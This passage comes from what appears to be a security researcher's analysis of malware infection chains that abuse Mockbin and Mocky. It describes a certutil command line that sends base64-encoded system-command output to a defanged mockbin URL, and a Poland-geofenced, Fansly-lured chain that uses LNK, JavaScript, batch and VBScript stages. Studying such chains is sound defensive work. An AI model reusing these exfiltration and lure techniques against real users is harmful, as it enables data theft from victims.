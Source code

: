 From here, the script base64 encodes the command output files using CertUtil and sets environment variables for the base64-encoded command outputs using set /p ipc=<%programdata%\<b64enc_cmdoutput>. 
The newly set environment variables are exfiltrated by performing a GET request to the mockbin[.]org using certutil -urlcache -f <http[:]//mockbin[.]org/bin/<id>/%env_var%. The environment variables are passed on in the request as shown in the screenshot. 
Figure 8: Final script - Execute system commands and exfiltrate output to Mockbin.org
Towards the end of the script, clean up takes place where the command output files are deleted and the command outputs of executed commands: ipconfig, systeminfo, tasklist are exfiltrated to Mockbin URL.
Fansly Whoami Exfil Infection Chain
How it works
Figure 9: Fansly whoami exfil infection chain flow
Overview
The Fansly whoami exfil infection chain uses the Fansly brand to entice users into downloading the later stages of the chain, which exfiltrate command outputs to Mockbin. 
Technical Analysis
This infection chain begins with a ZIP archive bundled with a malicious LNK (shortcut) file. The LNK file opens the http://run[.]mocky[.]io/v3/<id> URL in a browser, which consists of an HTML page with malicious Javascript. This HTML page is different from the page described in the "Systeminfo stealing infection chain" section. In this case, the JavaScript performs the following actions:

Verifies if the userAgent header includes the keyword "win" to determine if the operating system being used is Windows.
Utilizes the IPAPI Geolocation API to check if the country code is "PL" (Poland).
Verifies whether the IP address version is "ipv4"

Specifically looking for the “PL” country code indicates the infection chain is geofenced and targeting users from Poland.
If all of the conditions above are satisfied, the JavaScript downloads a ZIP file named fansly.zip by decoding a large base64 blob. The ZIP file includes three explicit JPEG images of Ukrainian and Russian Fansly models to lure users into downloading a malicious batch file, called fansly.com_online.bat, bundled inside the same ZIP archive.

Figure 10: Explicit images of Ukrainian & Russian Fansly models used to entice users into downloading a hidden file
Once executed, the fansly.com_online.cmd batch script performs the following actions:

Writes a VBScript & a batch script in the ProgramData directory and executes the VBscript.
The VBScript opens real Fansly model profiles to conceal the malicious actions and then executes the batch script written in the ProgramData directory.
Once executed, the batch script: 

kills any running msedge.exe process
deletes any .css files in the downloads folder
opens a mockbin[.]org URL which downloads a eucv8o.css file into the Downloads folder
moves eucv8o.css into the ProgramData directory as eucv8o.cmd and then executes



When the mockbin[.]org URL is opened by the batch script in an Microsoft Edge browser, the JavaScript performs the following actions:

Verifies if the userAgent header includes the keyword "win" to determine if the operating system being used is Windows.
Ensures that userAgent does not contain the string “wow” which indicates that the 32-bit process is running in a 64-bit Windows machine.
Checks if the browser version (Chrome/Firefox”UserAgent - Microsoft Edge also uses Chrome) is greater than "100".
